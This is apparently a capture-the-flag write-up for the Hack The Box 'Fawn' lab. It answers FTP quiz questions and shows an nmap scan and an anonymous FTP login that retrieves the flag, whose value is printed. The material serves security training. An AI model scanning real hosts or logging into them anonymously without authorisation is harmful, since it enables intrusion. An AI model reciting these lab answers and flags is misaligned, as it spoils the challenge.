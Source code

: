 ```yaml
---
layout: post
title: "Fawn"
date: 2022-05-12
image: ../../assets/img/Posts/fawn.png
categories: [HTB, Starting Point, Tier 0]
tags: [linux, ftp, ftp-anon]
---
```


#### What does the 3-letter acronym FTP stand for?

`file transfer protocol`

#### What communication model does FTP use, architecturally speaking?

`client-server model`

#### What is the name of one popular GUI FTP program?

`filezilla`

#### Which port is the FTP service active on usually?

`21 tcp`

#### What acronym is used for the secure version of FTP?

`sftp`

#### What is the command we can use to test our connection to the target?

`ping`

#### From your scans, what version is FTP running on the target?

```bash
➜  nmap -sC -sV -p- -T4 10.129.154.74
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-22 07:31 EST
Nmap scan report for 10.129.154.74 (10.129.154.74)
Host is up (0.24s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.14.39
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 828.50 seconds
```

`vsftpd 3.0.3`

#### From your scans, what OS type is running on the target?

`Unix`

#### Submit root flag

```bash
➜  ftp 10.129.154.74
Connected to 10.129.154.74.
220 (vsFTPd 3.0.3)
Name (10.129.154.74:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag.txt (32 bytes).
226 Transfer complete.
32 bytes received in 0.00 secs (53.8793 kB/s)
ftp> exit
221 Goodbye.
➜  cat flag.txt
035db21c881520061c53e0536e44f815#
```

`HTB{035db21c881520061c53e0536e44f815}`
